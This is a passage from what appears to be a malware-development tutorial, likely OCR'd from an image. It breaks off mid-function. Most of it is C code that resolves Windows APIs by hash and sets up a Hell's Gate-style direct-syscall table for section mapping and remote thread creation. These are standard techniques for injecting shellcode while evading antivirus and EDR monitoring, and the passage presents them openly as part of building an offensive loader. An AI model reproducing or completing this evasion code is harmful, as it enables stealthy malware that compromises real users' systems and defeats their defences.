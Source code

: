 Next, a new structure `API_HASHING` is defined in `Common.h` and is used to store the addresses of WinAPIs used, making them more accessible for use within the implementation's functions.

**Common.h**

```c
typedef struct _API_HASHING {

	fnGetTickCount64                pGetTickCount64;
	fnOpenProcess                   pOpenProcess;
	fnCallNextHookEx                pCallNextHookEx;
	fnSetWindowsHookExW             pSetWindowsHookExW;
	fnGetMessageW                   pGetMessageW;
	fnDefWindowProcW                pDefWindowProcW;
	fnUnhookWindowsHookEx           pUnhookWindowsHookEx;
	fnGetModuleFileNameW            pGetModuleFileNameW;
	fnCreateFileW                   pCreateFileW;
	fnSetFileInformationByHandle    pSetFileInformationByHandle;
	fnCloseHandle                   pCloseHandle;

}API_HASHING, * PAPI_HASHING;
```

#### Updating VX_Table

The `GetModuleHandleH` and `GetProcAddressH` functions must be used to initialize the elements in the `API_HASHING` structure. The `InitializeSyscalls` function then uses these functions to initialize the `VX_TABLE` structure, which is used to call syscalls.

```c
// ...

API_HASHING g_Api = {0};


BOOL InitializeSyscalls() {

	// Get the PEB
	PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
	PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
	if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
		return FALSE;

	// Get NTDLL module 
	PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

	// Get the EAT of NTDLL
	PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
	if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
		return FALSE;

	g_Sys.NtCreateSection.uHash          = NtCreateSection_JOAA;
	g_Sys.NtMapViewOfSection.uHash       = NtMapViewOfSection_JOAA;
	g_Sys.NtUnmapViewOfSection.uHash     = NtUnmapViewOfSection_JOAA;
	g_Sys.NtClose.uHash                  = NtClose_JOAA;
	g_Sys.NtCreateThreadEx.uHash         = NtCreateThreadEx_JOAA;
	g_Sys.NtWaitForSingleObject.uHash    = NtWaitForSingleObject_JOAA;
	g_Sys.NtQuerySystemInformation.uHash = NtQuerySystemInformation_JOAA;
	g_Sys.NtDelayExecution.uHash         = NtDelayExecution_JOAA;

	// Initialize the syscalls
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtMapViewOfSection))
```